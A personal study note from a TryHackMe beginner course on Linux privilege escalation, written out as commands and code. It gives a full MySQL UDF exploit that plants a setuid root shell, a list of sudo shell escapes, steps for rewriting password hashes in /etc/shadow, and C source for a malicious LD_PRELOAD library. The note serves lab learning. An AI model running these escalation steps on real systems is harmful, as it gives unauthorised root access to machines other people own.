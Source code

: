 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-30

# Linux PrivEsc

## Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL's plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

## Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```bash
mkpasswd -m sha-512 $PASSWORD
```

[It's also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](../notes/local-file-inclusion-attacks.md)

## Sudo

Some shell escapes via GTFOBins:

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - `:set shell=/bin/sh` followed by `:shell`

If LD_PRELOAD or LD_LIBRARY_PATH are preserved by sudo, then it's also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

Using LD_LIBRARY_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD_PRELOAD can be used as a starting point for an LD_LIBRARY_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD_LIBRARY_PATH!

* [GTFOBins](https://gtfobins.github.io)
